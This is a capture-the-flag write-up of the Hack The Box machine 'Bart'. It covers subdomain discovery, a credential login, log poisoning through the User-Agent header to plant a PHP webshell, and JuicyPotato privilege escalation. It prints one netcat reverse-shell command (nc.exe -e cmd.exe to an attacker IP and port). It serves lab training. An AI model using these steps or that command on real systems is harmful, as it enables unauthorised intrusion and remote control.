 # Bart

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (19) (6).png" alt=""><figcaption></figcaption></figure>

Only one port was available. We had to add `forum.bart.htb` to our `/etc/hosts` file to access the website.

### Web Enum

The website was a standard company page:

<figure><img src="../../../.gitbook/assets/image (5) (4) (1).png" alt=""><figcaption></figcaption></figure>

I checked the page source, and found a unique bit here. Seems like there was a user that was not shown for some reason.

<figure><img src="../../../.gitbook/assets/image (50) (2).png" alt=""><figcaption></figcaption></figure>

harvey is the user we probably need to access.&#x20;

We can fuzz subdomains using the `bart.htb` domain to find more places to visit.

<figure><img src="../../../.gitbook/assets/image (32) (3).png" alt=""><figcaption></figcaption></figure>

### monitor.bart.htb

We can visit this to see that it's running PHP Server Monitor v3.2.1.

<figure><img src="../../../.gitbook/assets/image (42) (3).png" alt=""><figcaption></figcaption></figure>

`harvey:potter` works as credentials to let us log in. There, we would view an internal chat instance.&#x20;

<figure><img src="../../../.gitbook/assets/image (52) (2).png" alt=""><figcaption></figcaption></figure>

I looked around and found the settings for this internal chat service, and found another subdomain.

<figure><img src="../../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

We can head to that domain to find another application running.

### Simple Chat Log Poisoning

There's a login page within the new page. Our previous credentials of `harvey:potter` do not work here.

<figure><img src="../../../.gitbook/assets/image (21) (5) (1).png" alt=""><figcaption></figcaption></figure>

However, what's interesting was the URL of the website, at `http://internal-01.bart.htb/simple_chat/login_form.php`. Googling around, we can find the exact simple\_chat PHP application being used as it is a open-source project.&#x20;

{% embed url="https://github.com/magkopian/php-ajax-simple-chat'" %}

Within the source code, we can view the register.php to see how to register a new user.

<figure><img src="../../../.gitbook/assets/image (23) (5).png" alt=""><figcaption></figcaption></figure>

All we need to do is sent a POST request with the `uname` and `passwd` parameters to register.

<figure><img src="../../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

Afterwards, I logged into the server.

<figure><img src="../../../.gitbook/assets/image (49) (2).png" alt=""><figcaption></figcaption></figure>

Within this page, there's the ability to view the Log files, and when we do, we would first get a pop-up similar to xss with 1, and have this GET request be sent to the machine.

<figure><img src="../../../.gitbook/assets/image (14) (3) (3).png" alt=""><figcaption></figcaption></figure>

When viewing this log, I noticed that the User-Agent was copied from my machine.

<figure><img src="../../../.gitbook/assets/image (58) (3).png" alt=""><figcaption></figcaption></figure>

I played around with this and altered my `User-Agent` field to something else, and it was still copied over.

<figure><img src="../../../.gitbook/assets/image (51) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (34) (5).png" alt=""><figcaption></figcaption></figure>

With this, because it is a PHP page, I attempted to write a webshell within the HTTP header and also change the page to a PHP page by altering the `filename` parameter.

<figure><img src="../../../.gitbook/assets/image (17) (6).png" alt=""><figcaption></figcaption></figure>

With this, we can easily gain a reverse shell into the machine using Invoke-PowerShellTcp, as other shells don't work out well.

<figure><img src="../../../.gitbook/assets/image (40) (1) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### JuicyPotato

When checking our privileges, we notice we have the SeImpersonatePrivilege enabled.

<figure><img src="../../../.gitbook/assets/image (47) (2).png" alt=""><figcaption></figcaption></figure>

Checking `systeminfo`, we also find that a vulnerable version of Windows was running with no hotfixes.

<figure><img src="../../../.gitbook/assets/image (31) (3).png" alt=""><figcaption></figcaption></figure>

We can run the JuicyPotato exploit to get a reverse shell as root. First, we need to create a .bat file that would be run. I used nc.exe to run my shell:

```
C:\Temp\nc.exe -e cmd.exe <IP> <PORT>
```

Then, we can get JuicyPotato on the machine and run it with a CLSID. We can find one from this page:

{% embed url="http://ohpe.it/juicy-potato/CLSID/Windows_10_Pro/" %}

<figure><img src="../../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

Afterwards, we would catch a shell as the administrator.

<figure><img src="../../../.gitbook/assets/image (9) (3) (3).png" alt=""><figcaption></figcaption></figure>
